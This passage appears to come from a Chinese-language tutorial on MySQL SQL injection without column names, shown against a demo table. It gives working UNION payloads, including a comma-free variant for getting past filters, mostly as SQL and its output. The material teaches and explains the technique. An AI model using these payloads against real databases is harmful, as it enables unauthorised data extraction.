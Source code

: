 ``` sql
4 rows in set (0.00 sec)
```

通过这两个sql语句的对比，可以看到select 1, 2, 3在前的话，对应的列名也会变成1, 2, 3，所以这里是可以进行无列名注入的一个点

我们union注入的payload就是基于上面的原理
``` sql
mysql> select `1` from (select 1,2,3 union select * from newtable)a;
+------+
| 1    |
+------+
|    1 |
|    1 |
|    2 |
|    3 |
+------+
4 rows in set (0.00 sec)
```

这一句话的意思是将select 1,2,3 union select * from newtable的内容取名为 **表a**，然后再按照列名进行选择 (``select `1` from a ``)

这里还有一个点是为什么要用`` `1` ``而不是 1 ？因为此时的表a的列名为数字1，2，3，所以需要用 **反引号** 对其进行转义

那么当有了前面的基础后，我们就可以进行无列名的注入了

假设现在有一个vulnerable sql
``` sql
select id,name,pwd from newtable where id='{$id}'; 
```
而我们需要通过无列名的payload进行sql的注入，拿到内容

可以使用下面这样的sql语句
``` sql
mysql> select id,name,pwd from newtable where id='111' union select 1,(select group_concat(`2`) from (select 1,2,3 union select * from newtable)c),3;
+------+-----------------+------+
| id   | name            | pwd  |
+------+-----------------+------+
|    1 | 2,zww,zww2,zww3 | 3    |
+------+-----------------+------+
1 row in set (0.01 sec)
```

payload:
``` sql
select group_concat(`2`) from (select 1,2,3 union select * from newtable)c)

-- 无逗号版本:
union select group_concat(a) from (select * from (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t where 0 union select * from newtable)x
```

这里稍微解释一下无逗号版本的语法
``` sql 
mysql> select * from (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t union select * from newtable;
+------+------+----------+
| a    | b    | c        | << 重点看这里
+------+------+----------+
|    1 | 2    | 3        | << 使用where 0去除
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
+------+------+----------+
4 rows in set (0.00 sec)
```
`` (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t `` 会生成一个列名为a, b, c，数据为1，2，3的表
